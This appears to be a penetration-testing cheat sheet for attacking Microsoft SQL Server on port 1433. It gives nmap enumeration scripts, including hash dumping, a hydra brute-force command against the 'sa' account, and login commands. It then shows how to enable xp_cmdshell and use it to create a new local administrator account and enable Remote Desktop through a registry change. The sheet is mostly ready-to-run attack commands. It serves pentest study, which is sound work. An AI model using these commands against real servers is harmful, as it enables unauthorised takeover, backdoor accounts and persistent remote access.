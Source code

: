 # MSSQL - Microsoft SQL Server - 1433

## MSSQL Information

## Automated Enumeration

Nmap has a few scripts that we can use to enumerate MSSQL:

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Bruteforce

Quick brutetroce for pass “SA” password

```
hydra -l sa -P password.txt -V $ip mssql
```

## Authentication

Connect to MSSQL Server:

```
sqsh -S server_address -U sa -P password
```

### sqsh <a href="#sqsh" id="sqsh"></a>

Connect to MSSQL with valid credentials:

```
sqsh -S <ip> -U username -P password
```

### mssqlclient.py <a href="#mssqlclientpy" id="mssqlclientpy"></a>

Authenticate to MSSQL with Windows Authentication:

```
mssqlclient.py mssql-svc@<ip> -windows-auth
```

## Execute Shell Commands

Enable xp\_cmdshell:

```
exec sp_configure 'show advanced options', 1;
go
reconfigure;
go
exec sp_configure 'xp_cmdshell', 1;
go
reconfigure;
go
```

Execute System Command:

```
xp_cmdshell 'net user byte bytepass /add';
go
xp_cmdshell 'net localgroup Administrators byte /add';
go
xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f';
go
```


